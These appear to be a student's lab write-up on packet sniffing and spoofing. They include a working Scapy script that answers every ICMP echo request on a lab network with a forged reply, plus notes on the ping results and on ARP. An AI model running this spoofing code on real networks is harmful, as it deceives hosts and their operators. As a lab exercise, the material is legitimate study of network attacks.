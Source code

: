 ### Trace route local
Run `sudo python3 task1-3.py 10.9.0.5` to trace the route to a local machine, which should be completed in one hop
#### Result
![Pasted image 20230922165504.png](/img/user/Study/Leet%20Code/attachments/Pasted%20image%2020230922165504.png)

# Task 1.4 
```python
from scapy.all import *
def spoof_pkt(pkt):
	if ICMP in pkt and pkt[ICMP].type == 8:
		print("Original Packet ...")
		print("Source IP:", pkt[IP].src)
		print("Destination IP:",pkt[IP].dst)
		ip = IP(src=pkt[IP].dst,dst=pkt[IP].src,ihl=pkt[IP].ihl)
		icmp = ICMP(type=0,id=pkt[ICMP].id,seq=pkt[ICMP].seq)
		data = pkt[Raw].load
		newpkt = ip/icmp/data
		print("spoofed Packet...")
		print("Source IP:", newpkt[IP].src)
		print("Destination IP:",newpkt[IP].dst)
		send(newpkt,verbose=0)
pkt = sniff(iface='br-1714b192a2df', filter='icmp', prn=spoof_pkt)
```
## Execution
Run `sudo python3 task1-4.py` to start sniffing and spooffing on  the host machine (attacker machine) 

carry out the same steps [here](#tcp) to get into a victim machines's shell

## Result 
### 1.2.3.4
Running `ping 1.2.3.4` on the victim machine to a non-exisitent host on the internet, no reply should be expected, but since the attacker machine is spoofing a `ICMP` echo reply to every request, the victim machine will received a reply
![Pasted image 20230922225524.png](/img/user/Study/Leet%20Code/attachments/Pasted%20image%2020230922225524.png)
![Pasted image 20230922225822.png](/img/user/Study/Leet%20Code/attachments/Pasted%20image%2020230922225822.png)
We can see from the second screenshot that the ping command is receiving a reply, but from the attacker

### 10.9.0.99
When we attempt to ping an IP address in the LAN, the system first tries to resolve the `MAC address` of the destination IP using the `Address Resolution Protocol (ARP)`. If there's no device with that IP address (10.9.0.99 in this case) on the LAN to answer the ARP request, then `no ARP reply will be received`.
After some time, if the MAC address c`annot be resolved` via ARP, the system understands that it `cannot send the ICMP echo request` to the intended destination, as it doesn't know the hardware (MAC) address of the destination. As a result, it generates an `ICMP error` message indicating that the destination host is unreachable.
Since the networking stack does not know where to send the `ICMP request`, nothing is sent and hence, on the attacker side, nothing is received
